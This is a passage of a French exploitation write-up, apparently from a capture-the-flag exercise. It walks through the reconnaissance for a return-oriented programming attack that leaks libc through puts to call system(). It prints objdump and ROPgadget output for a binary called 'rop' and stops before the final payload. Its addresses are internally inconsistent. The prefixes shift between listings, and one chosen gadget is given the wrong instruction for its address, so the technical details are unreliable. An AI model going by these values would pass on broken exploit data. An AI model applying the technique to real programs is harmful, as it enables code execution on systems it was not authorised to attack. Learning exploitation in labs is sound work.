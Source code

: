 Nous pouvons avoir l'adresse de puts :
```
root@10b97ae13330:~# objdump -d rop | grep "<puts@plt>"
08849f30 <puts@plt>:
0884a08e:	e8 9d fe ff ff       	call   08849f30 <puts@plt>
```
```
08849f30 <puts@plt>:
```

Nous avons donc les adresses de :

* `puts@plt`: 0x08849f30
* `__isoc99_scanf@GLIBC_2.7`: 0x0884cf14

Puts nous permet d'écrire une string dans stdout et donc d'afficher la valeur une valeur de la libc afin de trouver la différence et donc d'utiliser n'importe quelle autre fonction de la libc dont `system()`.
La fonction puts prend un argument en paramètre :
```c
int puts(const char *str)
```

Afin de récupérer cet argument nous allons utiliser un ROP Gadget pour sortir notre argument de la stack. Grâce à un gadget de type pop ???; ret. Et pour cela nous allons utiliser ROPgadget:
```
root@10b97ae13330:~# ROPgadget --binary rop | grep pop
0x09849252 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0984922e : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0984910b : add esp, 8 ; pop ebx ; ret
0x098491b8 : inc dword ptr [ebx - 0x746fef3c] ; pop ebp ; cld ; leave ; ret
0x0984923c : jecxz 0x80491b9 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0984923b : jne 0x8049219 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0984901e : les ecx, ptr [eax] ; pop ebx ; ret
0x0984924e : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0984925f : mov bl, 0x2d ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0984923f : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x098491be : pop ebp ; cld ; leave ; ret
0x09849243 : pop ebp ; ret
0x09849240 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0984902e : pop ebx ; ret
0x09849242 : pop edi ; pop ebp ; ret
0x09849241 : pop esi ; pop edi ; pop ebp ; ret
0x09849026 : sal byte ptr [edx + eax - 1], 0xd0 ; add esp, 8 ; pop ebx ; ret
```
```
0x09849243 : pop ebp ; ret
0x0984902e : pop ebx ; ret
```

Nous avons donc deux choix:
* 0x09849243 : `pop ebp ; ret`
* 0x09849241 : `pop ebx ; ret`

Enfin nous devons trouver l'adresse du main de l'executable. Avec gdb nous pouvons avoir désassembler le main de notre programme:
